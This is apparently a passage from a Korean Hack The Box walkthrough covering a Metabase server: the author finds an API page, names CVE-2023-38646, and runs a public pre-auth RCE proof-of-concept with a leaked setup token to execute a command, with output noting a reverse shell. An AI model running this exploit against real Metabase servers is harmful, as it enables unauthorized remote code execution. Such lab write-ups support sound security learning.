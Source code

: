 로그인 페이지의 이것저것을 보던 중 webpack 관련 내용이 보이는 것을 확인하였다. 찾은 경로 중 /api가 있어 접근해보니, api를 테스트해볼 수 있는 페이지 같은 모습이 나온다.
![](../assets/image_post/20240329141234.png)
![](../assets/image_post/20240329142843.png)

이것 저것 다양한 시도를 해보았으나, 결국 Guide Mode를 통해 진행하게 되었다. 그런데...세상에..
> What is the 2023 CVE ID assigned to the pre-authentication, remote code execution vulnerability in this version of Metabase?
이 문제도 cve를 찾아서 풀어야 하는 문제였네...? metabase 란 서비스가 문제용으로만 있는줄 알았는데 그게 아니였나보다...🤢

## [0x01] gainning access
---
관련된 cve를 검색해보니 cve-2023-38646 Pre-Auth RCE 취약점이 나온다. [PoC Code](https://github.com/m3m0o/metabase-pre-auth-rce-poc)를 다운로드하여 한번 실행해보자. 사용 방법은 `python3 main.py -u http://[targeturl] -t [setup-token] -c "[command]"`와 같은 령태이다. setup-token의 경우 `/api/session/properties`를 확인하면 된다.

``` bash
┌──(root㉿kali)-[/home/user/htb/metabase-pre-auth-rce-poc]
└─# python main.py -u 'http://data.analytical.htb' -t 249fa03d-fd94-4d5b-b94f-b4ebf3df681f -c "whoami"
[!] BE SURE TO BE LISTENING ON THE PORT YOU DEFINED IF YOU ARE ISSUING AN COMMAND TO GET REVERSE SHELL [!]

[+] Initialized script
[+] Encoding command
[+] Making request
[+] Payload sent
```
